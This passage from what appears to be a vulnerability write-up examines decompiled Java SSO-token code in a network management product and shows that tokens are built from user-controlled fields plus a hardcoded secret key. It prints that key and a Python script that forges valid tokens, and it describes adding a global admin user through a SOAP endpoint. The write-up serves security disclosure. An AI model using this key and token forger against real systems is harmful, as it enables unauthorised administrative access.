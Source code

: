 ```java
/* 466 */         ret = true;
/* 467 */         userNameTLC.set(userName);
/*     */       }
/*     */     
/* 470 */     } catch (Exception ex) {
/* 471 */       _Logger.info("confirmSSoToken: ", ex);
/*     */     } 
/*     */     
/* 474 */     return ret;
/*     */   }
```

<p class="cn" markdown="1">We see a check at line *[465]* that if the extracted `digest` matches the resultant call from `SecurityManager.getMessageDigest` then the code will reach line *[466]* and set `ret` to true which is later returned. Let's now investigate the `SecurityManager.getMessageDigest` method.</p>

```java
/*     */   private static String getMessageDigest(String algorithm, String userName, int sessionid, long sysTime) throws Exception {
/* 371 */     String input = userName + sessionid + sysTime + "POsVwv6VBInSOtYQd9r2pFRsSe1cEeVFQuTvDfN7nJ55Qw8fMm5ZGvjmIr87GEF";
/*     */     
/* 373 */     MessageDigest md = MessageDigest.getInstance(algorithm);
/* 374 */     md.update(input.getBytes());
/*     */ 
/*     */ 
/*     */ 
/*     */ 
/* 379 */     return new String(Base64.encodeBase64(md.digest()));
/*     */   }
```

<p class="cn" markdown="1">We can see whats happening, we can control all the elements to forge our own token and then a hardcoded key is used to generate the `ssoToken`, meaning that we can bypass authentication. If this looks familiar to you, then you are probably thinking of [CVE-2019-1619](https://github.com/pedrib/PoC/blob/master/advisories/cisco-dcnm-rce.txt#L42) which Pedro found.</p>

<p class="cn" markdown="1">Here is the code I used to generate the sso token.</p>

```python
import md5
import base64
def gen_ssotoken():
    timestamp = 9999999999999  # we live forever
    username = "hax"           # doesnt even need to exist!
    sessionid = 1337           # doesnt even need to exist!
    d = "%s%d%dPOsVwv6VBInSOtYQd9r2pFRsSe1cEeVFQuTvDfN7nJ55Qw8fMm5ZGvjmIr87GEF" % (username, sessionid, timestamp)
    return "%d.%d.%s.%s" % (sessionid, timestamp, base64.b64encode(md5.new(d).digest()), username)
```

<p class="cn" markdown="1">Using this bug, we can send a SOAP request to the `/DbAdminWSService/DbAdminWS` endpoint and add a global admin user that will give us access to all interfaces!</p>
